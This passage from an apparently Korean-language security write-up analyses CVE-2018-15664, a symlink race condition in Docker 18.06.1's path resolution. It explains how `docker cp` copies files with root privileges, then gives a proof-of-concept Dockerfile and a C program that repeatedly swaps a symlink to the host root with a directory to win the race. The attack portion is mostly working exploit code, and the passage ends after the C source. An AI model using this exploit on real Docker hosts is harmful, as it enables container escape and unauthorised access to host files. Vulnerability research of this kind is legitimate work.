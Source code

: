 CVE-2018-15664의 영향을 받는 도커 18.06.1의 `FollowSymlinkInScope` 코드는 [여기](https://github.com/moby/moby/blob/v18.06.1-ce/pkg/symlink/fs.go#L21)에서 확인 가능합니다.

# Proof of Concept

## docker cp

익스플로잇에는 `docker cp` 명령을 사용합니다. `docker cp` 는 컨테이너와 로컬 파일시스템 간의 파일 및 폴더 복사를 수행합니다.

```bash
# Container -> Local Filesystem
docker cp [OPTIONS] CONTAINER:SRC_PATH DEST_PATH|-

# Local Filesystem -> Container
docker cp [OPTIONS] SRC_PATH|- CONTAINER:DEST_PATH
```

도커 컨테이너의 파일은 로컬 파일시스템의 어딘가에 저장되어 관리됩니다.  `docker cp CONTAINER:SRC_PATH DEST_PATH` 를 수행하면 실제로는 로컬 파일시스템 기준으로 `/var/lib/docker/overlay2/CONTAINER_ID/merged/SRC_PATH` 에 해당하는 파일이 `DEST_PATH` 로 복사되고, 로컬 파일시스템에서 컨테이너로 복사할 때도 마찬가지입니다.

앞에서 설명했듯 도커는 기본적으로 루트 권한으로 돌아갑니다. 따라서 `docker cp` 명령 시에도 루트 권한으로 복사가 수행됩니다.

## Exploit

익스플로잇에 사용할 도커 이미지가 필요합니다. 아래와 같이  `Dockerfile` 을 구성합니다.

**Dockerfile**

```docker
FROM ubuntu:20.04
RUN apt-get update && apt-get install -y gcc
COPY symlink_swap.c /symlink_swap.c
RUN gcc -o /symlink_swap /symlink_swap.c
ENTRYPOINT ["/symlink_swap"]
```

`symlink_swap.c` 를 컴파일한 후 엔트리 포인트로 지정해 컨테이너 시작 시 `/symlink_swap` 이 실행되는 이미지입니다.  `symlink_swap.c` 는 아래와 같습니다.

**symlink_swap.c**

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/stat.h>
#include <stdio.h>
#include <fcntl.h>

int main()
{
	symlink("/", "/totally_safe_path");
	mkdir("/totally_safe_path-stashed", 0755);

	while (1)
		renameat2(AT_FDCWD, "/totally_safe_path", AT_FDCWD, "/totally_safe_path-stashed", RENAME_EXCHANGE);

	return 0;
}
```
